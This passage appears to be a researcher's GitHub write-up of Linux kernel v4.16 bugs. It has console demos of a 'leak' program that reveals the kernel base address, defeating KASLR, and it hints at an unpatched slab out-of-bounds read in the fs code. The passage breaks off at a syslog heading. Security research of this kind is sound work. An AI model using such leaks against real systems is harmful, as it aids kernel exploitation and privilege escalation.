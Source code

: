 
### mm stuff
These bugs are what I found on LK v4.16.x. Here's my [post](http://kozistr.tech/2018/03/23/LK-kaslr_bypass.html).

I dunno whether it was patched :). But, as I remembered, it's not a perfectly reliable bug, and there's kinda restriction. So, I'll skip this bug :).

``Console Demo``

```c
zero@zer0day:/tmp$ uname -a
Linux zer0day 4.16.0-rc5+ #19 SMP Sun Mar 18 20:44:40 KST 2018 x86_64 GNU/Linux
zero@zer0day:/tmp$ ./leak
zero@zer0day:/tmp$ ./leak 1
[+] Found Kernel Base Address!
[+] kbase : 0xffffffff89e00000
zero@zer0day:/tmp$ su
root@zer0day:/tmp# cat /proc/kallsyms | grep _text | head -n 1
ffffffff89e00000 T _text
root@zer0day:/tmp#
```

```
zero@zer0day:/tmp$ ./leak
...
zero@zer0day:/tmp$ ./leak 1
[+] Found Kernel Base Address!
[+] kbase : 0xffffffffb2600000
zero@zer0day:/tmp$ ls
leak  leak.c
zero@zer0day:/tmp$ su
root@zer0day:/tmp# cat /proc/kallsyms | grep _text | head -n 1
ffffffffb2600000 T _text
root@zer0day:/tmp# uname -a
Linux zer0day 4.16.0-rc7+ #22 SMP Thu Mar 29 16:46:52 KST 2018 x86_64 GNU/Linux
```

Anyway, successfully got kernel base address :)

## 0-day bug

In this chapter, I gonna show information disclosure which can lead to *KASLR bypass*. This feature is used on many Linux distributions, So, maybe it is reliable on many Linux systems :| (i didn't test all of them, yet)

### Bugs

This bug is ``slab-out-of-bounds`` *Read*. By using this, kernel-land addresses (heap) can be leaked. Found on LK ~v.4.18.x-rc5.

Hint for the vulnerability is ``fs``. There're no any validations for specific variable and it leads to *OOB*.

### syslog
